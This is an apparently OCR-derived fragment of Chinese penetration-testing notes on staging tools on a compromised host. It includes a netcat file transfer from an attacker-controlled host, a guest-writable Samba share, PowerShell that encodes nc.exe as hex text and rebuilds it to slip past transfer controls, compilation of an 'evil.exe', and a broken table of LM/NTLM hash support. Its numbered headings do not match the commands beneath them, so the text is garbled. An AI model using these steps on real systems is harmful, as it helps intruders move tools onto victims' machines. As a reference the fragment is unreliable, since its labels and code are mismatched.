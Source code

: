 ```
服务端:cat file | nc -l 1234
下载端:nc host\_ip 1234 > file
```

3、通过 ipconfig 配置查找 dns 地址

```
\>vi /etc/samba/smb.conf
\[test\]
    comment = File Server Share
    path = /tmp/
    browseable = yes
    writable = yes
    guest ok = yes
    read only = no
    create mask = 0755
>service samba start
下载端

net use o: \\\\192.168.206.129\\test
dir o:
```

```
\[byte\[\]\] $hexdump = get-content -encoding byte -path "nc.exe"
\[System.IO.File\]::WriteAllLines("nc.txt", (\[string\]$hexdump))
TexttoExe.ps1

\[String\]$hexdump = get-content -path "nc.txt"
\[Byte\[\]\] $temp = $hexdump -split ' '
\[System.IO.File\]::WriteAllBytes("nc1.exe", $temp)
```

4、查询域控

```
csc.exe /out:C:\\evil\\evil.exe C:\\evil\\evil.cs
```

```
|        | 2000  | xp| 2003 | Vista | win7 | 2008 | 2012 | |--------| |   LM   | √ | √ | √ | |  NTLM  | √ | √ | √ | √ | √ | √ | √|
```

**端口收集**

端口方面的攻防需要花费的时间太多，引用一篇非常赞的端口总结文章

